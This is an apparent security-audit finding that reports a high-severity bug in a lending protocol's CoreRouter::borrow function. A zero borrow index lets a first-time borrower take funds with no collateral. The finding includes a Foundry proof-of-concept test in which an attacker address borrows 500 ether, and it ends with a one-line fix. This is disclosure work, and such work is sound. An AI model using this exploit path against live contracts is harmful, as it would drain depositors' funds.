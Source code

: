 Dandy Fiery Alligator

High

# [H-03] - Anyone can steal funds on their first borrow without depositing any collateral

### Summary

Any borrower can borrow any amount of funds up to the available maximum from an available token on their first borrow in `CoreRouter::borrow`. 

This is because the check in `CoreRouter::borrow` calculates the `borrowAmount` based on the current index. If the borrower does not have any outstanding borrows, the `currentBorrow.borrowIndex` is 0 and then `borrowAmount` will evaluate to 0. Then the `collateral` will always pass the >= check, even if it is 0.

This allows an attacker to simply call `CoreRouter::borrow` on any token and borrow up to the maximum available amount against the token, leaving the protocol with bad debt and lenders at a loss.

### Root Cause

Lines 152-161 in `CoreRouter::borrow` first calculates the `borrowed` and `collateral` amounts from the `getHypotheticalAccountLiquidityCollateral` method. It then looks at the borrowers current borrow index and applies it to the currently borrowed and requested borrow amount (`borrowed` that is returned). 

The issue is in the ternary operator starting on line 157, if the borrower has no current borrows, the `borrowIndex` will be 0 and the entire expression will end up setting the `borrowAmount` to 0 instead of leaving it as `borrowed`. Now the `collateral` will always pass the >= 0 check (even if it's 0!). 

https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L152-L161

### Internal Pre-conditions

1. There needs to be available balance to borrow from the protocol (expected)

### External Pre-conditions

N/A

### Attack Path

1. Attacker has a fresh address with no borrows and identifies a token available for borrowing
2. Call `CoreRouter::borrow` on the token for the available maximum borrow amount

### Impact

This is a critical error as it allows anyone to take tokens for free without providing collateral. Can lead to a complete loss of funds for depositors. 

### PoC

This is a basic POC that shows anybody can just borrow against the pool for free. Add this as `TestFirstBorrow.t.sol` to a folder called `poc` in `test` and run `forge test --match-test test_first_borrow -vvvv`. In the stack trace you will see the `BorrowState` return with a `borrowIndex` of 0. 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.23;

import {Test, console} from "forge-std/Test.sol";
import {Deploy} from "../../script/Deploy.s.sol";
import {HelperConfig} from "../../script/HelperConfig.s.sol";
import {CrossChainRouterMock} from "../mocks/CrossChainRouterMock.sol";
import {CoreRouter} from "../../src/LayerZero/CoreRouter.sol";
import {LendStorage} from "../../src/LayerZero/LendStorage.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {ERC20Mock} from "@openzeppelin/contracts/mocks/ERC20Mock.sol";
import {Lendtroller} from "../../src/Lendtroller.sol";
import {InterestRateModel} from "../../src/InterestRateModel.sol";
import {SimplePriceOracle} from "../../src/SimplePriceOracle.sol";
import {LTokenInterface} from "../../src/LTokenInterfaces.sol";
import {LToken} from "../../src/LToken.sol";
import "@layerzerolabs/lz-evm-oapp-v2/test/TestHelper.sol";

contract TestFirstDepositor is Test {
    HelperConfig public helperConfig;
    address public layerZeroEndpoint;
    address[] public supportedTokens;
    bool public isTestnet;
    address public deployer;
    address public attacker;
    address public lender;

    CrossChainRouterMock public router;
    LendStorage public lendStorage;
    CoreRouter public coreRouter;
    Lendtroller public lendtroller;
    InterestRateModel public interestRateModel;
    SimplePriceOracle public priceOracle;

    TestHelper public testHelper;

    address[] public lTokens;

    // Events to test
    event BorrowSuccess(address indexed borrower, address indexed lToken, uint256 accountBorrow);

    function setUp() public {
        deployer = makeAddr("deployer");
        attacker = makeAddr("attacker");
        lender = makeAddr("lender");

        // Deploy the entire protocol
        Deploy deploy = new Deploy();
        (
            address priceOracleAddress,
            address lendtrollerAddress,
            address interestRateModelAddress,
            address[] memory lTokenAddresses,
            address payable routerAddress,
            address payable coreRouterAddress,
            address lendStorageAddress,
            address _layerZeroEndpoint,
            address[] memory _supportedTokens
        ) = deploy.run();

        // Store the values in contract state variables
        router = CrossChainRouterMock(routerAddress);
        lendStorage = LendStorage(lendStorageAddress);
        coreRouter = CoreRouter(coreRouterAddress);
        lendtroller = Lendtroller(lendtrollerAddress);
        interestRateModel = InterestRateModel(interestRateModelAddress);
        priceOracle = SimplePriceOracle(priceOracleAddress);
        lTokens = lTokenAddresses;
        layerZeroEndpoint = _layerZeroEndpoint;
        supportedTokens = _supportedTokens;

        testHelper = TestHelper(payable(layerZeroEndpoint));

        // Set up initial prices for supported tokens
        for (uint256 i = 0; i < supportedTokens.length; i++) {
            priceOracle.setDirectPrice(supportedTokens[i], 1e18);
        }
    }

    function test_first_borrow() public {
        address borrowToken = supportedTokens[0];
        address lToken = lendStorage.underlyingTolToken(borrowToken);
        ERC20Mock(borrowToken).mint(lender, 1000 ether);

        vm.startPrank(lender);
        IERC20(borrowToken).approve(address(coreRouter), 1000 ether);
        coreRouter.supply(1000 ether, borrowToken);
        vm.stopPrank();

        vm.startPrank(attacker);
        coreRouter.borrow(500 ether, borrowToken);
        vm.stopPrank();

        console.log("Attacker Token Balance: ", IERC20(borrowToken).balanceOf(attacker));
    }
}
```

### Mitigation

The ternary operator on line 157 of `CoreRouter::borrow` should not set the `borrowedAmount` to 0, but as `borrowed`.